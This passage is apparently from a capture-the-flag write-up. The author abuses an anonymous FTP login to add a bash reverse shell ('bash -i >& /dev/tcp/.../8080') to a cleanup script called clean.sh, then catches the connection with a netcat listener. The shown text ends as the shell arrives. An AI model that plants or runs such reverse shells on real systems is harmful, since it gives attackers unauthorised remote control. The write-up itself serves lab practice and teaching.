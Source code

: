 
to_do.txt
```sh
bat to_do.txt        
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: to_do.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ I really need to disable the anonymous login...it's really not safe
```

Ok, yes, the anonymous login should be removed from the FTP-Server. Something bad can happend. :)

Now lets focus on the "clean.sh" Maybe we can add a reverse shell in the bash script. 
We cann add a bash reverse-shell into the file. 

Found on Pentest-Monkey a reverse-shell witch should work:

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Reverse-Shell")

Added the code in line 8 of the "clean.sh" script. 
Change the IP-Address to my local address and a port. 

```sh
bat clean.sh         
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: clean.sh
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ tmp_files=0
   4   │ echo $tmp_files
   5   │ if [ $tmp_files=0 ]
   6   │ then
   7   │         echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
   8   │         bash -i >& /dev/tcp/1*.1*.3.1**/8080 0>&1
   9   │ else
  10   │     for LINE in $tmp_files; do
  11   │         rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files
       │ .log;done
  12   │ fi
```

In another terminal i started a Netcat Listener on port 8080: "nc -lnvp 8080"

```sh
nc -lnvp 8080
listening on [any] 8080 ...
```
and after a few seconds i got a shell on the target:
